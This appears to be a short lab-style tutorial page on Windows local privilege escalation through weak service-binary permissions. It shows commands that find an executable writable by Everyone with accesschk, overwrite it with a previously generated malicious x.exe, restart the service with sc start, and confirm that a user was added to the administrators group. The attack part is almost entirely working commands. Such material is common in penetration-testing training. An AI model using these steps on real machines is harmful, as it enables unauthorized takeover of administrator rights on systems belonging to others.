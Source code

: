 # Executable files 

A Windows service is a program that runs in the background and if a executable file is running as service with full access then it is exploitable 

**Victim**

```
//Open command prompt
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\File Permissions Service"

// Notice that the “Everyone” user group has “FILE_ALL_ACCESS” permission on the filepermservice.exe file
```

**Exploitation**

```
// we generated the malicious x.exe file in registry exploit, now use this here 

// Open command prompt
copy /y c:\Temp\x.exe "c:\Program Files\File Permissions Service\filepermservice.exe"
sc start filepermsvc

// It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt
net localgroup administrators
```
